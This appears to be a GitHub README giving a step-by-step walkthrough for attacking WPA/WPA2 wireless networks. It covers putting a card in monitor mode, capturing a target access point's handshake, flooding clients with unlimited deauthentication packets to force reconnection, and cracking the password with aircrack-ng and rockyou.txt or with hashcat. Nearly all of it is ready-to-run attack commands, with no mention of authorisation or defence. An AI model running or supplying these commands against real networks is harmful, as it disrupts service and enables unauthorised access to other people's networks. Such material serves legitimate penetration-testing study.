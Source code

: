# Attacking WAP and WAP2 Wireless Networks Using Airmon-nga and Airdump-ng

# and Cracking using Aircrack-ng or Hashcat


## Capturing the 4-way Handshake

Checking WiFi Cards

`iwconfig`

Setting WiFi Card on Monitor Mode

`sudo airmon-ng start wlan0`

Listening for networks

`sudo airodump-ng wlan0`

*Note: the interface name may or may not change from wlan0 to wlan0mon. Check with iwconfig*

Save the MAC address and the channel number of the Access Point you want to attack

Capture wireless network traffic on target AP. Keep this running in a single terminal.

`sudo airodump-ng -w <hack1> -c 11 --bssid <00:FF:FF:FF:FF:FF> <wlan0>`

- "--bssid 00:FF:FF:FF:FF:FF" specifies the MAC address of the access point (AP) 
- "wlan0" or "wlan0mon" is the name of the wireless network interface to use for capturing traffic.
- "-c 11" specifies the wireless channel to capture traffic on.
- "-w hack1" specifies the name of the output file. In this case, it's "hack1".


In another terminal, de-Authenticate to to force reconnection and capture the handshake.

`sudo aireplay-ng --deauth 0 -a <00:FF:FF:FF:FF:FF> <wlan0>`

Stop monitor mode

`airmon-ng stop wlan0mon`


## Cracking the Captured Handshake

### Method 1 - Aircrack-ng

`aircrack-ng <hack1.cap> -w /usr/share/wordlists/rockyou.txt `


### Method 2 - Hashcat

Installation

`apt-get install hashcat`
`sudo apt-get install hcxtools`

Convert the .cap file to .hccapx format using the "cap2hccapx" tool. The syntax of the command

`cap2hccapx <input.cap> <output.hccapx>`

Crack

`hashcat -m 2500 -a 0 -w 3 <output.hccapx> <wordlist.txt>`

